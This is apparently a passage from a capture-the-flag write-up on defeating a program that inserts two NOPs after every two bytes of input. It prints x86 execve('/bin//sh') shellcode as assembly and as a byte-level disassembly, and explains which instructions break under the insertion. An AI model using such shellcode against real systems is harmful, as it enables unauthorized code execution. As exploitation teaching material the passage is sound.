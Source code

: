 
The `execute` function inserts `2 NOPs` for every `2` bytes. 


I initially used shellcode from [here](https://shell-storm.org/shellcode/files/shellcode-827.html).


Here's the assembly for the shellcode I sent. 


You can view the raw-bytes of assembly [here](https://defuse.ca/online-x86-assembler.htm#disassembly).


```asm
xor eax, eax 
push eax 
push 0x68732f2f
push 0x6e69622f
mov ebx, esp 
push eax 
push ebx
mov ecx, esp 
mov al, 0xb 
int 0x80 
```


The disassembly looks like this. 


The problem with the shellcode was that it used `5` bytes to pass `/bin//sh` to `execve`.


```asm 
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 53                      push   ebx
11: 89 e1                   mov    ecx,esp
13: b0 0b                   mov    al,0xb
15: cd 80                   int    0x80
```


Since the program inserts `2 NOPs` for every `2` bytes in the string, using an odd number of bytes to pass `/bin/sh` will mess up your shellcode. 


To send a proper shellcode to get a shell you would need to modify the shellcode above.


You need to modify your shellcode so that every `2` bytes of your shellcode is a valid instruction or a `NOP`.


We need to find the instructions that are not `2` byte instructions. 


I found `5` instructions. 
